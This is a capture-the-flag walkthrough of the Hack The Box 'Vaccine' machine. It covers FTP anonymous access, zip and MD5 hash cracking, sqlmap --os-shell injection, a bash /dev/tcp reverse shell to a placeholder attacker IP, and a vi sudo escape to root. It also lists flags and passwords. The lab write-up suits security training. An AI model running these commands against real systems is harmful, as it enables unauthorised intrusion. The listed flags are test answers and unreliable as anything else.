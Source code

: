 # Vaccine

Vaccine is a very easy machine on Hack The Box Starting Point Tier 1 that focuses on privilege escalation using vim.

## Task 1
**Besides SSH and HTTP, what other service is hosted on this box?**
> FTP

![Nmap Scan of Target Machine](nmap.png)

## Task 2
**This service can be configured to allow login with any password for specific username. What is that username?**
> anonymous

![FTP Login Without Password](anon.png)

## Task 3
**What is the name of the file downloaded over this service?**
> backup.zip

![FTP File](ftp.png)


## Task 4
**What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?**
> zip2john

We try to use the `unzip` command to unzip the zip archive `backup.zip`, but can't because it's password protected. We use the `zip2john` command to convert `backup.zip` into a format `backup.hash` that allow for cracking attempts:

![Unsuccessful unzip](unsuccessful_unzip.png)

We use John The Ripper with the builtin wordlist `/usr/share/wordlists/john.lst` to crack `backup.hash`. We find that the password is `741852963` and are able to unzip the zip archive `backup.zip`:

![Successful unzip](successful_unzip.png)

## Task 5
**What is the password for the admin user on the website?**
> qwerty789

We look at the `index.php` file from `backup.zip` and see that the password for the admin user is hardcoded into the website:

![Hardcoded Password](index.png)

The MD5 Hash of the password for the admin user is `2cb42f8734ea607eefed3b70af13bbd3`. We use John The Ripper with the builtin wordlist `/usr/share/wordlists/rockyou.txt` to crack the hash and get that the the password for the admin user is `qwerty789`:

![Password for admin User](admin_pass.png)

We login to the target machine's website using the credentials `admin` and `qwerty789`:
![Successful Login](successful_login.png)

## Task 6
**What option can be passed to sqlmap to try to get command execution via the sql injection?**
> --os-shell

The target website has a PHPSESSID session cookie which preserves the state of the website (for that session). Since we previously logged into the target website, visiting any page of the target website using that same PHPSESSID session cookie will allow us to remain logged in. 

We use the command:

```Bash
sqlmap -u "http://{TARGET IP}/dashboard.php?search=tmp" --cookie="PHPSESSID="{SESSION KEY}" --os-shell
```

Now we have a shell as the postgres user on the target machine:
![OS Shell](os-shell.png)

## Task 7
**What program can the postgres user run as root using sudo?**
> vi

Our sqlmap bash shell doesn't save the state of the machine after each command so we need to create a bash reverse shell. We setup a Netcat listener on our machine on port `4242` and then start our reverse shell using the sqlmap bash shell on the target machine:

```bash
bash -c "bash -i >& /dev/tcp/{OUR IP}/4242 0>&1"
```

Now we can send the target machine commands:

![Reverse Shell](reverse_shell.png)

We can use the command `sudo -l` to list commands that the postgres user is allowed to run as root, but we need the postgres user's password. We search the files for the website for a line containing both `postgres` and `pass`:

```bash
grep -nr 'postgres' /var/www/html | grep 'password'
```

We get that the password for the postgres user is `P@s5w0rd!`:

![Postgres Password](postgres_password.png)

We don't have a fully functional reverse shell, so we use the credentials for the postgres user to login using SSH. We run the `sudo -l` command and see that the postgres use can only run the `vi` command as root to edit the `/etc/postgresql/11/main/pg_hba.conf` file:

![Postgres Permissions](postgres_permissions.png)

## User Flag
> ec9b13ca4d6229cd5cc1e09980965bf7

We get the postgres user flag from our os-shell:

![User Flag](user_flag.png)

## Root Flag
> dd6e058e814260bc70e9bbdef2715849


The `/etc/postgresql/11/main/pg_hba.conf` has root permissions and we can use vim as root to edit it:

```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Since we opened the vim editor, we can use the commands to get a shell as root:

```
:set shell=/bin/sh
:shell
```

Then we find the flag:

![Flag](root_flag.png)